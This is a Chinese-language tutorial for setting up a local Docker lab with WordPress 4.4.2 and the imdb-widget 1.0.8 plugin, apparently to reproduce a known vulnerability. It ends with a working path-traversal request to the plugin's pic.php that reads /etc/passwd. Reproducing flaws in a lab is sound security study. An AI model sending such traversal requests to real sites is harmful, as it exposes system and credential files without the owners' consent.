 这里使用docker来搭建，操作系统为 Ubuntu 14.04，docker的安装大家可以 google下

拉取 WordPress image

```
docker pull wordpress:4.4.2

```

拉取 Mysql image

```
docker pull mysql:5.7.11

```

拉取过程可能会比较慢，可以装个Shadow(socks)和proxychains，再proxychains docker pull

启动 mysql container

```
docker run -d -p 3306:3306 --name mysql -e MYSQL_ROOT_PASSWORD=root mysql:5.7.11

```

启动 wordpress container

```
docker run -d --name wordpress --link mysql:mysql -p 80:80 wordpress:4.4.2

```

访问

```
http://127.0.0.1/

```

根据页面提示Install就行

接着登录后台

```
http://127.0.0.1/wp-login.php

```

下载插件imdb-widget有漏洞的[1.0.8版本](https://downloads.wordpress.org/plugin/imdb-widget.1.0.8.zip)，点击左边导航栏的 插件 - 安装插件 - 上传插件，选择刚才下载的zip包，点现在安装 - 启用插件

然后点击 外观 - 小工具，把左边的 IMDb Profile 拖到 挂件区域的第一个位置，点开设置User id，随便填一个如`ur1`，Show 随便勾选几个，点保存。主页刷新就可以看到了

[![](http://static.wooyun.org//drops/20160404/2016040416112163137.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/04/F38F9F26-CDAE-4370-A01F-34416B4A297F.jpg)

测试漏洞，执行如下命令，就可以看到`/etc/passwd`的内容

```
wget -O result.txt http://127.0.0.1/wp-content/plugins/imdb-widget/pic.php?url=../../../../../../../../../etc/passwd

cat result.txt
...

```
